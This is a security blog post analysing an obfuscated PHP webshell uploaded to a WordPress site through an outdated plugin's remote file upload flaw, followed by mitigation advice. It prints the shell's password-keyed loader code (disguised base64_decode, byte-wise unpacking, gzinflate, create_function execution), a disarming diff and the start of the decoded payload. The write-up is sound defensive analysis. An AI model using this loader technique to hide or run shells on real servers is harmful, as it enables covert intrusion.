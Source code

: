 ```yaml
---
layout: post
title: "Highly obfusticated PHP webshell"
date: 2015-11-26 18:54
comments: true
categories:
- security
- php
- webshell
- compromise
- ioc
- wordpress
---
```


If there's one thing to be said for Wordpress blogs, it's that users rarely seem to understand than keeping things up to date is really going to stop them from getting owned 9/10 times.

So if you take one thing away from this post please make sure it's:

1. *KEEP YOUR WORDPRESS INSTALL UP TO DATE*
2. *KEEP ALL YOUR WORDPRESS PLUGINS UP TO DATE*

Simple enough right? of course this isn't a "cure all" and there's other vulnerabilites an mitigations to consider; but not for this post.

# RFU

Remote File Upload.

So the site in question had a plugin which was out of date. This plugin had a RFU vulnerability which allowed attackers to upload arbitary code files then head to

https://thesite.com/wp-content/pluginname/uploadedfile.php 

To execute the attack.

Standard, boring crap right ? 

Well this post isn't to focus on how it happened, nor why it happed. Simply put the php file itself I found very interesting.

# PHP Code obfustication

Sure, code obfustication is not something new, heck tools like msfvenom allow you to choose from a variety of obfustication methods the premis for which is to avoid signatures for "known bad" files, and thus avoid common signatures (which is why you should not rely solely on signature bases analysis).

The thing is the overwhelming majority of webshell obfustication is done through "packing", you'll see it use base64, gzinflate, eval and it's a pretty common standard.

Not this little bastard, and that's why this got my attention

Head of the file:

```php
<?php $wp__wp='base'.(32*2).'_de'.'code';$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7sj/9Bh8g6EJWtzJjaKUSdpGj/VzFUKzIhEUBQzNS4Il8OaZdAcKdt4ix0eWNniRKnvuBmTO2W39H
d7VmyCL7+MB1t1eOa8wWJiYQqisMKzcIhXvmOdkg4LTsDk6HIm+rsjD2nlcBpGKNVW+/irhPtk6zlOIq
aUVBxVWCJ7CT30ogudYn0spol2MwyvBRWJHwaKlKY3bYQ39LodSJUGhlB3tJAMiAvCMLpWp91UHt+Ukm
aHypp+OTC9oWJSwpwALTqIX+z2Yetp8r3RRBf2JYPiUtxuuEsxi4lIGM477sPiLqhFJLI7wiV35oyUJJ
G9Zv4OWsozkEARLUEBqKlxlH21b0+Sv568ea9hMD/JhLLx7TeG3wsqfHQ5yxIY2GTHHq9eT3yeGCteT4
xprMpl7rNcEtG1b6Ez9SSsbG61fEHg4ozeVVyrEPlDscsyXlhysW2kDf1CLg0URWuW7GsiJ2xPsyG+RX
ctsM+8t+W4nbM1AyuxSQv03OoA3R0sGLeicrm41VByDI0lDlwfmwq1K1jT2KsXD60BA/PDs2FBB9IfhJ
awK1/tFiGbi+G/gb9KLEzrr8ZCgkTqH8RWJ/avnDbK/DMBy5rZzVU/VEFNaRTVyN5lBxphQ6nJpT9vM5
Z5Cu7f8PYmaBthyP3iqZk/ur0i1+64uyYe9XaiXkORQ/F90DEaY0m3MAxIptHs8lQMclnoIX27gTJnAv
NpcyJgsM5Z8w/6dApQTxWU4/iA+QIKZATqlKYDpuScahCgOIlenxBhEsjB7s2mpG82vcs+/FoxuobVLZ
```

Well, that's ... interesting ...

Tail of the file

```php
'));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

## Long string is loooooooong ...

So first it's a base64 encoded string; we know this due to the first line of code which is doing some signature evasion itself.

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Which of course yields 'base64_decode'

So then the next line

```php
$wp__wp=$wp__wp(str_replace("\n", '', 'QOC7
```

Is really:

```
$wp__wp=base64_decode(<payload>)
```

So let's use some python ...

```
>>> payload="""QOC7s...""".replace("\n","")
>>> len(payload)
20432
>>> from base64 import b64decode
>>> b64decode(payload)
'@\xe0\xbb\xb2?\xfd\x06\x1f
...
```

So we have some raw intelligibile data, the WTF continues ...

## So what now?

Let's look at the tail of the file again it's doing some additional processing let's add some whitespace and comments to make it readable

```php
//Ternary if statements
//if we have the password in the POST or COOKIE var set $wp_wp to this. If not set $wp_wp to null
$wp_wp = isset($_POST['wp_wp']) ? $_POST['wp_wp'] : (isset($_COOKIE['wp_wp']) ? $_COOKIE['wp_wp'] : NULL);

//If wp_wp is not NULL (so we have a password set from the above)
if( $wp_wp !== NULL ) {
    //mutate the var
    $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));
    //assuming: test123 as the password.
    /*
     * php -r '$wp_wp = "test123"; $wp_wp = md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp)); echo $wp_wp;'
     * cc03e747a6afbbcbf8be7668acfebee56a54720
     */ 
   
    //wp___wp is just an integer itterator, for for readability I'm substituting this for $i 
    for( $i = 0; $i < 15324; $i++){
        //wp__wp is the payload so I'm renaming this also to $payload
        //each char is unpacked by the following line
        $payload[$i] = chr(( ord($payload[$i]) - ord($wp_wp[$i])) % 256);
        //this is then appended to wp_wp (which is the password)
        $wp_wp .= $payload[$i];
    }
  
    if ( $payload = @gzinflate($payload)) {
        if( isset($_POST['wp_wp']) ) @setcookie('wp_wp', $_POST['wp_wp']);
        //recall this line from above: $wp__wp='base'.(32*2).'_de'.'code'
        //$i therefor is base64_decode(<unpacked payload>);
        $i = create_function('',$payload);
        unset($payload,$wp_wp);
        $i();
    }
}?>
<form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

I suppose we _could_ go the python route again, however as we've discerened the function (loop unpack payload -> create_function -> execute function), we can "disarm" it to instead echo out the unpacked code for further analysis.


So the file with the required modifications ...

```
257c257,266
< '));$wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);$wp___wp();}}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
\ No newline at end of file
---
> '));
> 
> $_POST['wp_wp'] = "test123";
> $wp_wp=isset($_POST['wp_wp'])?$_POST['wp_wp']:(isset($_COOKIE['wp_wp'])?$_COOKIE['wp_wp']:NULL);
> if($wp_wp!==NULL){$wp_wp=md5($wp_wp).substr(md5(strrev($wp_wp)),0,strlen($wp_wp));for($wp___wp=0;$wp___wp<15324;$wp___wp++){$wp__wp[$wp___wp]=chr(( ord($wp__wp[$wp___wp])-ord($wp_wp[$wp___wp]))%256);$wp_wp.=$wp__wp[$wp___wp];}if($wp__wp=@gzinflate($wp__wp)){if(isset($_POST['wp_wp']))@setcookie('wp_wp', $_POST['wp_wp']);
> //$wp___wp=create_function('',$wp__wp);unset($wp__wp,$wp_wp);
> //$wp___wp();
> echo $wp__wp;
> 
> }}?><form action="" method="post"><input type="text" name="wp_wp" value=""/><input type="submit" value="&gt;"/></form>
```

The resuling payload starts off as

```php
@ini_set('log_errors_max_len',0);@ini_restore('log_errors');@ini_restore('error_log');@ini_restore('error_reporting');@ini_set('log_errors',0);@ini_set('error_log',NULL);@ini_set('error_reporting',NULL);@error_
reporting(0);@ini_set('max_execution_time',0);@set_time_limit(0);@ignore_user_abort(TRUE);@ini_set('memory_limit','1000M');@ini_set('file_uploads',1);@ini_restore('magic_quotes_runtime');@ini_restore('magic_quot
es_sybase');
...
```

And continues to create a webshell interface.


#So what?

Granted this may be viewed as little more than a geeks curiosity, however on a more serious note the main intriguing element of this webshell is that the password is an intrinsic part required to unpack the valid payload.

Without the password the unpack will fail; so consider if 

```php
$wp__wp='base'.(32*2).'_de'.'code';
```

Was instead moved to reside inside the packed payload, how would you possibly be able to begin to write a signature for such a file?
Fuzzy logic sure, look for long strings of seemingly random content, still I can see that's going to run false positives in the masses given the various obfusticating options out there for php such as those that require licensening ...

## Mitigation ?

1. SELinux set ON, will limit what the web server process can access (it's not going to stop it getting access to your database servers, and if you have `httpd_can_network_connect` set to true, it's not going to stop it creating a reverse shell either)
2. KEEP UP TO DATE WITH PATCHES, Web application, system packages ... patch all the things!
3. WAF and/or IPS (inspect POST & GET, for SQL, known shell commands and block (will not prevent file download / upload))


